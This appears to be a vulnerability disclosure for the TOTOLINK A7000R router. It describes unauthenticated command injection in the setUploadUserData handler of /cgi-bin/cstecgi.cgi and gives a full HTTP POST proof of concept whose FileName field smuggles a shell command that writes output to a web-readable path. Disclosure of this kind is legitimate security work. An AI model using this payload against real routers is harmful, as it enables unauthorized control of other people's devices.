




# Information

- **Vendor of the products:** TOTOLINK
- **Vendor's website:** [TOTOLINK](https://www.totolink.net/)
- **Affected products:** A7000R
- **Affected firmware version:** V4.1cu.4154
- **Firmware download address:** [download]([TOTOLINK](https://www.totolink.net/home/index/product.html?product=A7000R))

# Overview

Critical unauthorized command execution has been found in the TOTOLINK A7000R router. The vulnerability can be triggered via route `/cgi-bin/cstecgi.cgi`. An attacker can achieve unauthorized RCE by sending an HTTP POST request, specifically by making a request to `setting/setUploadUserData`.

# Vulnerability details

You can see the `setUploadUserData` handler here


Here, the `FileName` is valued, and then spliced into the system function for command execution



# POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8,zh-HK;q=0.7,en-US;q=0.6,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Origin: http://192.168.0.1
Referer: http://192.168.0.1/login.asp
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 124

{
  "topicurl": "setting/setUploadUserData",
  "ContentLength": "10485",
  "FileName": "a|ls / > /etc_ro/web/15.txt;"
}
```
